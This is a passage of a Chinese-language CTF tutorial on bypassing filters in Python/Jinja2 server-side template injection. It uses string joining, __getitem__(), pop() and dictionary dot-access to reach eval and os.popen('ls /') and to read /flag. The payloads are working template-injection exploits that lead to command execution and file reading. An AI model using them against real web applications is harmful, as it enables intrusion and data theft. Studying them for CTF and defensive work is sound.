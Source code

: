 ```python
[].__class__.__base__.__subclasses__()[40]("/fl""ag").read()
```

###### 利用join()函数绕过

们可以利用join()函数来绕过关键字过滤。例如，题目过滤了flag，那么我们可以用如下方法绕过：

```python
[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read()
```



##### 中括号[ ]

###### **__getitem__()**

可以使用 `__getitem__()` 方法**输出序列属性中的某个索引处的元素**(相当于`[]`)，如：

```python
>>> "".__class__.__mro__[2]
<type 'object'>
>>> "".__class__.__mro__.__getitem__(2)
<type 'object'>
```



```python
{{().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(59).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}
```

###### **pop() 绕过**

`pop()方法`可以返回指定序列属性中的某个索引处的元素或指定字典属性中某个键对应的值，用法和上面的`__getitem__()`基本一样，如下示例：

```python
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.pop('__builtins__').pop('eval')('__import__("os").popen("ls /").read()')}}
```

**pop()会删除相应位置的值。一次性使用**

###### **字典读取**

我们知道**访问字典里的值有两种方法**，一种是把相应的键放入我们熟悉的方括号 `[]` 里来访问，另一种就是用点 `.` 来访问。所以，当方括号 `[]` 被过滤之后，我们还可以用点 `.` 的方式来访问，如下示例

```python
#改成 __builtins__.eval()

{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.__builtins__.eval('__import__("os").popen("ls /").read()')}}
```

等同于：

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}} 
```
